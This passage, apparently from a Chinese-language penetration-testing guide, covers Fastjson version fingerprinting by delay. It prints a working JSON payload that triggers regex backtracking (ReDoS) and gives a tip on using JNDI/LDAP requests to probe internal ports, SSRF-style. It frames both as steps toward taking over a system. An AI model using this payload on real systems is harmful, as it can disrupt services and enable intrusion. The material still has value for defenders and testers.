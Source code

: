 [![](assets/1706254407-fca4e55dfbe5ff5c67e5f2b2ad6c7d7e.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203201-bd49b9d4-bb7d-1.jpeg)

## 2.3 延迟判断法

### 2.3.1 浅蓝正则 ddos 探测法：1.2.36<=version<=1.2.63\_noneautotype

`payload25`：

```plain
{"regex":{"$ref":"$[blue rlike '^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$']"},"blue":"aaa!"}
```

该`payload`慎用，可能会影响业务系统，实战中应当逐步加`a`，不要一上来就输入一堆`a`。有延迟，说明版本处于`1.2.36`和`1.2.63_noneautotype`之间。  
尽管需要慎用，但是该`payload`的魅力还是很大的，一旦成功说明该系统很有可能可以拿下该系统权限。

### 2.3.2 jndi 请求延迟探测法

**Tips：**  
可以在`ldap://ip`后面加上端口，这样就可以探测内外端口开放情况了，类似`ssrf`。
